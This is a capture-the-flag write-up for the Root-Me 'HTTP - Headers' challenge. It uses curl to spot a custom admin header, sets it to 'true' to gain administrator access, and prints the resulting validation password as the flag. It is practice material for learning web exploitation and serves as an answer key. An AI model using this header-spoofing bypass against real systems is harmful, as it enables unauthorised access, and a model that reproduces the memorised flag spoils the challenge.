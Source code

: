 ```yaml
---
title: HTTP - Headers
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, Authentication vulnerabilities]
---
```


* Points: 15
* Link: https://www.root-me.org/en/Challenges/Web-Server/HTTP-Headers

## Statement

> Get an administrator access to the webpage.

### Hint

> HTTP response give informations

## Solution

Let's visit the site:
```sh
curl -i http://challenge01.root-me.org/web-serveur/ch5/
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 20 Jun 2023 13:27:33 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Header-RootMe-Admin: none
```

```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
</body>
</html>
```

Check here
```
Header-RootMe-Admin: none
```

Let's try
```sh
curl -H "Header-RootMe-Admin: true" http://challenge01.root-me.org/web-serveur/ch5/
```

```html
<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
<p>Content is not the only part of an HTTP response!</p>
<p>You dit it ! You can validate the challenge with the password HeadersMayBeUseful
</p></body>
</html>
```

The flag is
```
HeadersMayBeUseful
```
